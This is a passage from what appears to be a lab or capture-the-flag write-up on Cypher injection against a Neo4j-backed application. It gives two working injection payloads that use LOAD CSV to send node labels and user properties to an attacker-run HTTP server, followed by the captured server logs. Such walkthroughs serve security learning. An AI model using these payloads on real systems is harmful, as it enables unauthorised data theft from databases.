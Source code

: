 ## Injection

*Now the question arises... How can we do an injection?*
*How can we exploit this vulnerability to our advantage?*
Doing various research I discovered that no one talks specifically about neo4j, especially on the injection part.
Only a few sites talk about it:
- https://neo4j.com/developer/kb/protecting-against-cypher-injection/
- https://infosecwriteups.com/the-most-underrated-injection-of-all-time-cypher-injection-fa2018ba0de8
- https://www.varonis.com/blog/neo4jection-secrets-data-and-cloud-exploits
These are some guides that I personally used to develop (use) a query to get information.

The first query I used is the following:

```
' OR 1=1 WITH 1 as a  CALL db.labels() yield label LOAD CSV FROM 'http://10.10.X.X/?l='+label as l RETURN 0 as _0 //
```

__This allows me to see the various tables__

Output:
```
$ python -m http.server 80          
...
10.10.11.57 - - [02/May/2025 10:54:08] "GET /?l=USER HTTP/1.1" 200 -
10.10.11.57 - - [02/May/2025 10:54:08] "GET /?l=HASH HTTP/1.1" 200 -
10.10.11.57 - - [02/May/2025 10:54:08] "GET /?l=DNS_NAME HTTP/1.1" 200 -
10.10.11.57 - - [02/May/2025 10:54:09] "GET /?l=SHA1 HTTP/1.1" 200 -
10.10.11.57 - - [02/May/2025 10:54:09] "GET /?l=SCAN HTTP/1.1" 200 -
10.10.11.57 - - [02/May/2025 10:54:09] "GET /?l=ORG_STUB HTTP/1.1" 200 -
10.10.11.57 - - [02/May/2025 10:54:09] "GET /?l=IP_ADDRESS HTTP/1.1" 200 -
```

From here we can see that there are the following tables:
- USER
- HASH
- DNS_NAME
- SHA1
- SCAN
- ORG_STUB
- IP_ADDRESS

We are interested in knowing the user, so let's try to get at least the names of registered users with the following query:

```
' OR 1=1 WITH 1 as a MATCH (f:USER) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.X.X/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

Output:
```
$ python -m http.server 80  
...
10.10.11.57 - - [02/May/2025 10:57:38] "GET /?name=graphasm HTTP/1.1" 200 -
```
